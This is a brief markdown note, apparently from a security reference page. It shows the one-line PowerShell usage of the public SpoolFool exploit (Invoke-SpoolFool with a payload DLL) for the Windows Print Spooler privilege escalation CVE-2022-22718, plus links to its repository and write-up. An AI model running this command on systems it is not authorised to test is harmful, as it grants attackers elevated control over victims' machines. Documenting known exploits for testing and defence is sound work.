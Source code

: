 ### Exploit
```
Invoke-SpoolFool -dll <payload>.dll
```

### References
* https://github.com/ly4k/SpoolFool  
* https://research.ifcr.dk/spoolfool-windows-print-spooler-privilege-escalation-cve-2022-22718-bf7752b68d81  

